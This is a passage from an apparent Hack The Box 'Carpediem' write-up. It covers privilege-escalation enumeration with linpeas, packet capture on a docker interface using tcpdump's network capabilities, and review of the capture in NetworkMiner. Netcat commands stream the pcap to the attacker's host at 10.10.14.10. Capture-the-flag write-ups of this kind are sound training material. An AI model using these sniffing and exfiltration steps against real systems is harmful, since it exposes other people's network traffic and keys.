 Going through the output we have two lines shining in red/yellow indicating a 95% PE vector
```bash
hflaccus@carpediem:/tmp$ ./linpeas.sh

════════════════════════════════════╣ Processes, Cron, Services, Timers & Sockets ╠════════════════════════════════════
╔══════════╣ Cleaned processes
[i] Looks like ps is not finding processes, going to read from /proc/ and not going to monitor 1min of processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
                 1578848   sed-Es,jdwp|tmux |screen |--inspect|--remote-debugging-port,&,g

╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Files with capabilities (limited to 50):
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip

╔══════════╣ Can I sniff with tcpdump?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sniffing
You can sniff with tcpdump!

══╣ Possible private SSH keys were found!
/etc/ssl/certs/backdrop.carpediem.htb.key
```

There's a section on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_net_admin-+-cap_net_raw) explaining the capabilities combination of `cep_net_admin` + `cap_net_raw` - tldr we can dump traffic from network interfaces.
I'm not sure what we're looking for, or what interface to dump, but since there are a lot of dockers and we know that there is a FTP + several http services, we might find something sensitive there.

NOTE: I left this pcap on for about 1 hour while leaving for a meeting, so there's a lot of traffic in my .pcap.
```bash
➜  carpediem nc -lp 1234 > docker0.pcap

hflaccus@carpediem:/tmp$ tcpdump -i docker0 -s 65535 -w docker0.pcap
tcpdump: listening on docker0, link-type EN10MB (Ethernet), capture size 65535 bytes
7171 packets captured
7171 packets received by filter
0 packets dropped by kernel

hflaccus@carpediem:/tmp$ nc -w3 10.10.14.10 1234 < docker0.pcap
```

Instead of using Wireshark like it's 1998, I send the .pcap to my Windows Attack VM and open it using _NetworkMiner_ (like it's 2007) - I think this gives a better quick overview of the dump. From the dump we can quickly see that a certificate has been sent from `backdrop.carpediem.htb` to the docker host on 172.17.0.1, I have no idea of what to do with this information.

![](/assets/images/htb-writeup-carpediem/carpediem17.png)
